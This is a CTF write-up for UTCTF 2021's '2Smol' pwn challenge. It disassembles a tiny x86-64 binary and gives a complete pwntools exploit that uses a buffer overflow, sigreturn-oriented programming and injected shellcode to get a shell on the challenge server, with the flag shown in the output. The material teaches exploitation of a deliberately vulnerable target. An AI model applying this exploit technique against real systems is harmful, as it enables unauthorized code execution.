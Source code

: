 # UTCTF 2021

## 2Smol

> 910
>
> I made this binary 2smol.
> 
> by `hukc`
>
> [smol](smol)

Tags: _pwn_ _x86-64_ _bof_ _srop_


## Summary

> See [Some Really Ordinary Program](https://github.com/datajerk/ctf-write-ups/tree/master/nahamconctf2021/some-really-ordinary-program) for a nearly an identical writeup.

We have nearly nothing to work with but a `read` and `syscall` gadget; using the return value from `read` we can use that to set `rax` so that we can use _srop_.

## Analysis

### Checksec

```
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations, choose your own adventure--_assuming you can find the bits you need._

### <strike>Decompile with Ghidra</strike> Disassemble with `objdump`

```assembly
0000000000401000 <_start>:
  401000:	e8 08 00 00 00       	call   40100d <main>
  401005:	b8 3c 00 00 00       	mov    eax,0x3c
  40100a:	0f 05                	syscall
  40100c:	c3                   	ret

000000000040100d <main>:
  40100d:	55                   	push   rbp
  40100e:	48 89 e5             	mov    rbp,rsp
  401011:	48 83 ec 08          	sub    rsp,0x8
  401015:	48 8d 7d f8          	lea    rdi,[rbp-0x8]
  401019:	e8 05 00 00 00       	call   401023 <_read>
  40101e:	48 89 ec             	mov    rsp,rbp
  401021:	5d                   	pop    rbp
  401022:	c3                   	ret

0000000000401023 <_read>:
  401023:	55                   	push   rbp
  401024:	48 89 e5             	mov    rbp,rsp
  401027:	48 83 ec 08          	sub    rsp,0x8
  40102b:	48 89 fe             	mov    rsi,rdi
  40102e:	bf 00 00 00 00       	mov    edi,0x0
  401033:	ba 00 02 00 00       	mov    edx,0x200
  401038:	b8 00 00 00 00       	mov    eax,0x0
  40103d:	0f 05                	syscall
  40103f:	48 89 ec             	mov    rsp,rbp
  401042:	5d                   	pop    rbp
  401043:	c3                   	ret
```

Yep, that's all of it.  `main` allocates 8 bytes on the stack, and then calls `read` with said stack location, however `read` sets `rdx` to `0x200` creating a buffer overflow.  Send anything over 16 bytes (stack + `push rpb`) and you'll segfault.

That's all there is folks.  Not a lot here.  No GOT, very few gadgets, no libc, etc..., total _srop_ fodder.

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rwx [heap]
0x00007ffff7ffa000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Before getting into the _srop_ details, lets look at the memory map.  Other than the stack, there is a 4K page of memory (the heap) that is also `RWX` at `0x402000`.  This is something we both have and _know_.

The attack is pretty simple, use `read` to _read_ in `0xf` bytes, so that `rax` is `0xf` (rt_sigreturn syscall).  Then call `syscall` followed by our sigreturn frame.

That frame will change `rsp` to the middle of page `0x402000` (remember stacks grow _down_ in address space), and then set `rip` to `main`.  This will basically start us all over again, but this time we know the stack address because we _set_ it.

Since we can _read_ and we know _where_ we will be storing that input, we can just send some shellcode to do the rest.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./smol')
binary.symbols['main'] = 0x40100d

if args.REMOTE:
    p = remote('pwn.utctf.live', 9998)
else:
    p = process(binary.path)
```

Standard pwntools header with some symbols added for `main`.

```python
syscall = next(binary.search(asm('syscall')))
stack = 0x4027f8

frame = SigreturnFrame()
frame.rsp = stack
frame.rip = binary.sym.main
```

Find a syscall gadget and setup the location of our new stack in the middle of page `0x402000`, then define our rt_sigreturn frame with `rsp` pointing to our new stack and `rip` pointing to `main`


```python
# overflow buffer
# get control of RIP
# call the read function to get 0xf in rax for syscall
# sigret
payload  = b''
payload += 16 * b'A'
payload += p64(binary.sym.main)
payload += p64(syscall)
payload += bytes(frame)

p.send(payload)
time.sleep(.1)
```

The payload just needs to fill up the `8` byte buffer plus 8 bytes for the `push rbp`, then call `main` followed by `syscall` and our frame.

> The .1 sleep is required to allow `read` to exit before our next `read` attack.

```python
# with read called, get 0xf in rax
p.send(constants.SYS_rt_sigreturn * b'A')
time.sleep(.1)
```

With the payload now running we need to send `0xf` bytes so that `read` will return with `0xf` in `rax`.  After than the rt_sigreturn syscall will kick in and update all the registered with values from our frame, including the new stack (`rsp`) and where we should start executing again (`rip`).

> The .1 sleep is required to allow `read` to exit before our next `read` attack.

```python
# new stack that we know address of and its NX
# just put in some shell code and call it
payload  = b''
payload += 16 * b'A'
payload += p64(stack + 8)
payload += asm(shellcraft.sh())

p.send(payload)
p.interactive()
```

Here we are again, at the beginning, all that has changed is we _know_ where the stack is.  This time set the return address with the location of our shellcode to be appended at the end.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/utctf2021/smol/smol'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ id
uid=1000(srop) gid=1000(srop) groups=1000(srop)
$ cat flag.txt
utflag{srop_xd}
```

